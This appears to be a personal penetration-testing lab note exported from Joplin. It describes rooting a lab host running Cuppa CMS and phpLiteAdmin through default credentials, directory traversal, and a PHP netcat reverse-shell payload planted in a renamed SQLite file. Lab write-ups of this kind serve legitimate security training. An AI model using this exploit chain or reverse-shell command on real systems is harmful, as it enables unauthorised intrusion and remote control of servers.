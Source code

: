 Getting a Foothold

Getting a Foothold

# Works
1. Run NMAP scans to find open ports

2. Run dirb. Found 2 interesting directories: /administrator and /db

3. View the login page for Cuppa CMS

4. Find default credentials for Cuppa CMS (admin:admin). They work! Creds for the cuppa db is found there

5. View the login page for phpLiteAdmin. Didn't need any password! Creds for several users is found there.

6. Run Nikto scan. It specifies that /administrator and /db are interesting.

7. Try the Cuppa CMS LFI/RFI exploit on the target. It works for directory traversal!
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
![949042314ae4b1bf7524940b0b4971bc.png](:/bae7dd2683bf4ccb9129cb54a943ec1a)

8. Attempt RFI by using the phpLiteAmin exploit 24044.txt

9. In phpLiteAdmin, create a new database named hack.sqlite
![68ca9ee88d952ef89ffb569e85b91644.png](:/201b13880fab438fa45c0bf354991879)

10. Rename hack.sqlite to hack.php
![ef6a3de0fed43f1f6569f20080780149.png](:/7229bccd84094cb099fef3942e3ae6c8)

11. Add a new table to hack.php. This example named it 'hacktable' and input number of fields = 1
![914b732f5b8b02914cfa98eed5ccd7e4.png](:/72f5a4db054a4c5faa1a798f3d4462a1)

12. Add a new field. This example named it 'hackfield', type 'TEXT', and Default Value is a php command for a reverse shell. The following php code uses netcat client to connect to our kali attack machine on port 1937:

`<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.214 1937 >/tmp/f") ?>`

Verify that table 'hacktable' has been created
![a81cc16caaf862dbd02aae6dfef481d2.png](:/52bd373f96e44afba3cb49a96655a51a)

Close-up view of the php code
![86703d1ec41ffe13d3a146539f996818.png](:/639418bf8d484519bfcd326edbe58af0)

13. Verify the path where the injected php code is stored. This is the LFI. The path to this code is:
### /usr/local/databases/hack.php
![7e1e832b6a0df2f5c25e0fa5c806e19b.png](:/1d086cf2e5f94951ac3827bf2f989bf5)

14. Open a netcat listener on port 1937
`nc -lvnp 1937`
![2a5ddfce2844270caf7b1a1e1e2581c0.png](:/8ede21e0cdc44290bebf6597f4e17604)

15. Browse to our code by utilizing the previous Cuppa CMS exploit.
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php`
![0bdc65fc5cb04483a0432818de046a0d.png](:/a15ac7f5175f4fbb96225aad3b920567)

16. Notice we now have a reverse shell
![cb994df4fe8482b8a61f531e18fe5ec7.png](:/3b91b601f5644970a5beefe6f0bbdfc9)


id: 747ef03ee0774c56afc596d34d7dcf7e
parent_id: ea5315131b95448aa248c85c1b717231
created_time: 2020-08-25T10:38:10.532Z
updated_time: 2020-08-26T08:43:16.310Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-25T10:38:10.532Z
user_updated_time: 2020-08-26T08:43:16.310Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1